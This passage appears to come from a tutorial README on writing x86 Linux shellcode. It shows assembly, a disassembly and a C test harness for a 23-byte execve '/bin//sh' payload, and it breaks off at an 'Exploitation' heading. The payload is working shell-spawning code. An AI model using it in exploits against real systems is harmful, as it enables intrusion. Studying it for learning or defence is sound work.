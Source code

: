 ```nasm
; push the address of the string
push ebx
; move the second argument (argv array) to ecx
mov ecx, esp
; move to eax the number of the syscall
mov al, 0xb
; do interruption
int 0x80
```

Disassembly:
```bash
clean-low-level-shellcode:     file format elf32-i386


Disassembly of section .text:

08049000 <__bss_start-0x1000>:
 8049000:	31 c0                	xor    eax,eax
 8049002:	50                   	push   eax
 8049003:	68 2f 2f 73 68       	push   0x68732f2f
 8049008:	68 2f 62 69 6e       	push   0x6e69622f
 804900d:	89 e3                	mov    ebx,esp
 804900f:	50                   	push   eax
 8049010:	53                   	push   ebx
 8049011:	89 e1                	mov    ecx,esp
 8049013:	b0 0b                	mov    al,0xb
 8049015:	cd 80                	int    0x80
```

Test the shellcode:
```C
#include <stdio.h>
#include <string.h>


unsigned char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

void main(){
  printf("Shellcode length: %d\n", strlen(shellcode));
  // Declare a function pointer named ret
  // Then cast the shellcode pointer to the function pointer of the same size
  int (*ret)() = (int(*)())shellcode;
  // Call the function
  ret();
}
```

`test-dirty-shellcode` and `test-clean-shellcode` don't need to be executable, they execute with `Segmentation fault` stuff.

## Exploitation
